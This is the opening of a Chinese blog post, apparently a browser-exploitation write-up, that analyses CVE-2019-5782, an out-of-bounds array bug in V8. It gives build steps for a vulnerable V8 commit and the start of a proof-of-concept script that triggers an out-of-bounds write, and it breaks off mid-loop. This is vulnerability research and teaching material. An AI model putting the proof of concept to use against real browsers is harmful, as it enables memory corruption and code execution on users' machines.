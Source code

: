 ```yaml
---
layout: post

title: 'CVE-2019-5782 v8数组越界漏洞分析与利用'

date: '2020-09-22'

header-img: "img/home-bg.jpg"

tags:
     - 浏览器 pwn  
author: 'De4dCr0w'


---
```




## 前言

### 环境搭建

```c
git reset --hard b474b3102bd4a95eafcdb68e0e44656046132bc9
gclient sync
./tools/dev/v8gen.py x64.debug
ninja -C ./out.gn/x64.debug/
```

生成Turbolizer文件

```
./d8 --allow-natives-syntax --trace-turbo poc.js
```



### 基础知识

v8 处理优化的各个阶段：

![image-20200807180247564](..\image\2020-09-22-CVE-2019-5782 v8数组越界漏洞分析与利用\3.png)



## 漏洞分析

该漏洞在18年天府杯被使用。

Poc代码：

```javascript
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 41] = 1.39064994160909e-309;  // 0xffff00000000
}
var a1, a2;
var a3 = new Array();
a3.length = 0x11000;

for(let i = 0; i < 0x10000; i++)
{
```